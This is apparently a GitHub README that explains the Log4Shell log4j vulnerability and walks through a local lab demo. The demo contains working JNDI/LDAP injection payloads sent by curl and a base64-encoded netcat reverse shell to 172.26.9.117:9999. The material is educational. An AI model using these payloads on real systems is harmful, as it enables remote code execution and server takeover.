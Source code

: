 # Log4shell

## Introduction

- Accessing the host server through log4j vulnerability and exploiting it with malicious code on the host server.

- Since this exploit is done through the log4j it was named commonly as Log4shell.

- Log4shell is similar to the *SQL injection* in which attacker enters sql string into the request parameters and making it execute  on the host server whereas in *log4shell* hacker enters his directory service url like ldap server making the host application connect to the attacker server using jndi lookup and gets the malicious code execute on the host server which is returned to host application in the form of stream object.

  ![Alt Text](log4shell.gif)

## Log4j Vulnerability

- Log4j is the widely used logging library for all java enterprise applications either referenced directly or indirectly in the applications.

- In 2013, Log4j has introduced a new feature which evaluates Expression language which is in format ${code/variable}.

- For example if we want to print the environment variable then syntax of the logger will be,
   ```log.info("java version is {}", ${java.version});```

- The above expression ${java.version} looks the system level environemnt variables which are set at server level and access the variable and put the value in the logger file.

- This is where the exploit is happening and attackers access the host server access without authorization.
  
## JNDI

- JNDI is *Java Naming & Directory Interface*.

- JNDI provides consistent use of naming and/or directory services as a Java API.

- Most commonly used directory protocols are,
  - LDAP
  - RMI
  - DNS
  - NIS

- Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.

  ![Alt Text](What-is-JNDI-in-Java.png)

## LDAP 

- LDAP (Light Weight Directory Access Protocol) is a software protocol for enabling anyone to locate data about organizations, individuals and other resources such as files and devices in a network -- whether on the public Internet or on a corporate Intranet.

  ![Alt Text](how-ldap-works.png)

- This is mostly used while authenticating a users when logging in to a applications since it is not a heavyweight protocol like http and takes less time and also reduces the costly DB hits.

- Also, it is very easy to manage users and their roles since constraints can be added at organization or group level which is easy to maintain and manage users when a new rule is introduced or old rule is depricated/removed.


## RCE

- RCE is Remote Code Execution which clearly explains of executing a malicious code on the remote server (host server) without even having access to the server.

  ![Alt Text](RCE.png)

- Attacker enters malicious code in the form of a request parameter fed to the website and then making the application run the code on the host server and perform whatever attacker wants to do on the host server without having authorized access.

## Demo:

#### Prerequisites:

- [x] *Download LDAP server*:
  
  ```
  wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
  ```
  
  ![Alt Text](download_ldap.png)

- [x] *Run LDAP server*:
  
  - Move to the jar location and run the server using below command.
      
      ```
      java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "calc.exe" -L <your private ip>:1389
      ```
      
  ![Alt Text](run_ldap.png)
  
  > *_NOTE:_*  Use **hostname -I | awk '{print $1}'** to ge the private IP.

- [x] *Create a spring boot application using log4j2 dependency with version less than 2.15*: 
     
     -  Open any Java IDE (Eclipse or SpringToolSuite) \
         ![createapp](setup_1609877530_1610434665.gif)
     
     -  Replace pom.xml with below file & copy below LogController src/main/java,<br/>
          [pom](pom.xml) <br/>
          [LogController](LogController.java) 
     
     - Add below lines in default file created under src/main/java --> *Application.java in main method. 
      
        ```
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");
        ```
     
     - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker         container.
        
        ```
        sudo apt install docker.io
        ``` 
    
#### Live Demo:
I will cover 3 scenarios where the malicious code will execute different outputs on the host system/server.

- Open calculator on windows system by executing vulnerable java application on local system.
  
  - Run the spring boot application from STS boot dashboard as below.  
    ![run app](02-start-single.png) 
  
  - Use curl to send request to host server with malicious code.
    	
      ```
      
      curl <your IP>:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/Y2FsYy5leGU=}'
      
      ``` 
      
    ![check calc](http://g.recordit.co/I5a0PeQpkf.gif)  
    
- Creating a txt file inside server after hosting application on docker container.
    
    - Host the same application in docker using below commands. 
          
         ```
          docker pull vamsi13krish/vulnerable-app:latest
          docker run -d --name vulnerable-app -p 8080:8080 vamsi13krish/vulnerable-app
          curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_unix/dG91Y2ggL3RtcC9wd25lZC50eHQK}'
         ```
          
    - Check the docker container for pwned.txt file in '/tmp' folder using below command 
        
         ```
          docker exec -it <container ID> ls /tmp
         ```
        
        >*NOTE*: Use **docker ps** to get container ID 


    ![file](http://g.recordit.co/Bn8ImBR7wn.gif)
    
- Getting complete access to the host server using netcat command that will be passed in malicious code on to host server using log4j vulnerability.
    - Use below command to convert the required netcat command to base64 encoded string. 
       
        ```
        echo "nc 172.26.9.117 9999 -e /bin/sh" | base64
        ```
        
     - Copy the base64 string and paste after 'exec_global/' in below command 
       
         ```linux
         ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}
         ```
       
     - Now open other terminal and run below command to listen to the port 9999.

          ```
          nc -nvlp 9999
          ```
      
     - Run below Curl command and check the listening terminal again.
        
          ```
          curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}'
          ```  
        
        ![Boom](http://g.recordit.co/xrvaibjQcF.gif)
    
    
## References:

- [LDAP Server](https://www.codetd.com/en/article/7503321)
- [JNDI Exploit Github](https://github.com/pimps/JNDI-Exploit-Kit)
- [Sample Exploit](https://www.thesecmaster.com/how-does-the-log4j-vulnerability-work-in-practical/)
- [Netcat Exploit](https://www.youtube.com/watch?v=tJW204uZWPU)
